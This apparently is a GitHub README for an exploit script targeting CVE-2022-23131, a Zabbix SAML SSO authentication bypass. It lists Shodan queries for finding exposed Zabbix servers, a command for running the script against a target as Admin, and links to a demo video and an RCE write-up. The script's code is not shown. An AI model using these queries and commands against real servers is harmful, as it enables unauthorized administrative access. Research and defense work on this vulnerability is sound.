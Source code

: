 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dork:
```
title:zabbix
```
```
http.favicon.hash:892542951
```
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```
### Demonstration Video (0:33)
[Zabbix - SAML SSO Authentication Bypass](https://youtu.be/xVY98l0QU-M)
<!-- RCE - https://habr.com/ru/companies/deiteriylab/articles/656829/ -->
